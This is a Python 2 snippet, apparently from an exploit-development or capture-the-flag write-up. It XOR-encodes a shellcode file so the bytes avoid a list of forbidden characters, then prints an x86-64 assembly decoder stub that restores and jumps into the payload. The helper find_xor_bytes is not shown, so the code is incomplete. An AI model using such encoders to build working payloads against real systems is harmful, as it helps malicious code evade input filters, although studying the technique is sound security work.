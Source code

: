 ```python
# build the bad char lookup array.
badchars = [0x0, 0xa, 0xd, 0x2f, 0xff, 0xf, 0x5, 0x68]
for i in range(0x40, 0x65):
    badchars.append(i)
# I got a bit paranoid and decided that these bytes were badchars too
for i in range(0x1, 0xf):
    badchars.append(i)
    
# read in the shellcode that we need to encode.
with open('modified-shellcode3') as sc:
    data = sc.read()
    sc.close()

# pad out the shellcode to a multiple of four
while len(data) % 4:
    data += "\xc3"

# ill-named variables to hold the encrypted bytes
storage = ''
encoded_bytes = ''
commands = ''
defines = ''
num_commands = 0

# iterate over each byte in the shellcode
for b in data:
    # try to find two bytes that are not badchars themselves
    (b1, b2) = find_xor_bytes(b)
    # store those bytes
    storage += b1
    encoded_bytes += b2
    # if there are four bytes stored, add them to the output & start again
    if len(storage) == 4:
        # emit 
        commands += "xor dword [rax+_shellcode{}-_shellcode], {}\n".format(num_commands, hex(struct.unpack('<L', storage)[0]))
        defines += "_shellcode{} dd {}\n".format(num_commands, hex(struct.unpack('<L', encoded_bytes)[0]))
        storage = ''
        encoded_bytes = ''
        num_commands += 1
                
# output the resulting assembly 
print """bits 64
_start:

;mov rax, 10
;mov rdi, 0x400000
;mov rsi, 0x1000
;mov rdx, 7
;syscall
;lea rax, [_decoder]

_shellcode:
jmp _decoder
"""
print defines
print "_decoder:"
print commands
print "jmp _shellcode0"

```
